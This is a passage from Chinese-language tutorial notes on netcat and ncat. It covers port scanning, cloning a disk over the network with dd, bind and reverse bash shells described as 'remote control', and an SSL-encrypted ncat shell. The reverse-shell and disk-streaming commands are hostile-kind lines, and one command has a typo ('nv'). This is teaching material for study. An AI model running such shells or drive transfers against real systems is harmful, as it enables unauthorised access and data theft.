 ```
nc -nvz 1.1.1.1 1-65535
//扫描TCP连接的端口，目标主机为1.1.1.1，端口范围为1~65535

nc -nvzu 1.1.1.1 1-65535
//扫描UDP连接的端口，目标主机为1.1.1.1，端口范围为1~65535
```

​	注：此扫描结果不一定准确，可能会受到防火墙等的影响



### 6.远程克隆硬盘

```
A: nc -lp 333 | dd of=/dev/sdb
B: dd if=/dev/sda | nv -nv 1.1.1.1 333 -q 1
//克隆硬盘是块级别的方式，能恢复系统中已删除的文件，用于电子取证
//dd是块命令，B主机上将sda硬盘以块的方式传输给A主机，A主机将收到的块文件镜像到sdb硬盘
```



### 7.实现远程控制

```
正向控制
A: nc -lp 333 -c bash
B: nc 1.1.1.1 333
//B控制A的bash shell

反向控制
A: nc -lp 333
B: nc 1.1.1.1 333 -c bash
//A控制B的bash shell

bash在哪儿，此主机就被控制
若用nc远程windows主机，则将bash命令换成cmd
```



### 8.ncat网络上的加密传输

```
A: ncat -c bash --allow 1.1.1.1 -vnl 333 --ssl
B: ncat -nv 1.1.1.2 333 --ssl
//A作为发送端，只允许来自1.1.1.1的主机连接，加密方式为ssl
//B作为接收端，连接A
```





# 二、常用工具的基本使用

### 1.wireshark
